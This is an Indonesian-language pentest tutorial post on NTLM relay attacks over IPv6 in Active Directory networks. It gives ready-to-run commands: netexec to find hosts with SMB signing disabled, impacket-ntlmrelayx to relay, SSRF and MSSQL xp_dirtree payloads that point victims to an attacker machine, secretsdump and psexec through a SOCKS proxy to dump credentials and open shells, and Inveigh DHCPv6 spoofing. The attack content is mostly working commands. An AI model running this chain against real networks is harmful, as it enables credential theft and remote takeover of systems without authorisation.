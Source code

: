```yaml
---
title: NTLM Relay IPv6 Attack
author: "novran"
date: 2024-11-23 00:00:00 +0700
categories: [Active Directory Pentest, Windows Pentest]
tags: [Active Directory Pentest, Windows Pentest]
mermaid: true
image:
  path: /images/2024-11-23-ntlm-relay-attack-banner.png
  alt: NTLM Relay Attack
---
```


Ketika pengaturan `Signing` pada protokol SMB (Server Message Block) memiliki pengaturan `False` atau dinonaktifkan, maka data yang dikirim antar klien dan server tidak diverifikasi. Sehingga komputer yang menjalankan konfigurasi **SMB Signing False** akan rentan terhadap serangan **NTLM Relay**.

# Let's Do It

```bash
netexec smb <IP_SEGMENT>/24 --gen-relay-list vuln-ntlm.txt
```

![Netexec Detect All Vulnerable Hosts](/images/2024-11-23-ntlm-relay-attack-vulnerable-host.png)

## 1. Wait and See or Trigger It

```bash
sudo impacket-ntlmrelayx -tf vuln-ntlm.txt -smb2support --ipv6 -debug
```

![NTLMRelayX](/images/2024-11-23-ntlm-relay-attack-ntlmrelayx.png)

Pada dasarnya, karena ini adalah serangan Man-in-the-Middle, maka **kalian hanya perlu menunggu saja** dan berharap **ada Host yang melakukan Broadcast** melalui LLMNR/mDNS.

> Namun, jika kalian menemukan kerentanan yang bisa di-**chaining**, seperti SSRF atau mendapatkan akses MSSQL, kalian bisa langsung men-trigger-nya secara langsung, dengan cara mengakses ke mesin kalian secara langsung (menggunakan protokol SMB).

**Trigger It!**

Server-Side Request Forgery.

```
file://<ATTACKER_MACHINE>/attack
```

MSSQL Query.

```
XP_DIRTREE '\\<ATTACKER_MACHINE>\attack', 1, 1
```

**Credential Dumped!**

Jika berhasil, maka `impacket-ntlmrelayx` yang dijalankan tadi akan menghasilkan output seperti ini.

![SAM Pwnd!](/images/2024-11-23-ntlm-relay-attack-sam-pwnd.png)

### Optional: Create Relay as Proxy Connection (Socks)

```bash
sudo impacket-ntlmrelayx -tf vuln-ntlm.txt -smb2support --ipv6 -debug -socks
```

```bash
## add to /etc/proxychains4.conf
socks4 127.0.0.1 1080
```

**Dengan ini, kita bisa mengeksekusi mesin target menggunakan...**

```bash
## Remote Credential Dump
proxychains4 -q impacket-secretsdump 'domain.local/anyuser$':'wrongpass'@<TARGET_MACHINE>
```

Atau.

```bash
## Run Shell Session
proxychains4 -q impacket-psexec 'domain.local/anyuser$':'wrongpass'@<TARGET_MACHINE>
```

## 2. Spoof via Compromised Machine

Setelah membaca dari sumber [ini](https://cloud.tencent.com/developer/article/1956335), Kita juga dapat melakukannya meskipun kondisinya itu _cross-network_, dengan cara melakukan Spoofing menggunakan [Inveigh](https://github.com/Kevin-Robertson/Inveigh/releases/tag/v2.0.11) (dengan catatan, Spoof melalui mesin yang sudah _compromised_).

```powershell
.\Inveigh.exe -DHCPv6 Y -SpooferIP <ATTACKER_MACHINE>
```

Kurang lebih gambarannya akan seperti ini.

![Relay to SpoofIP](/images/2024-11-23-ntlm-relay-attack-by-spoof-ip.png)
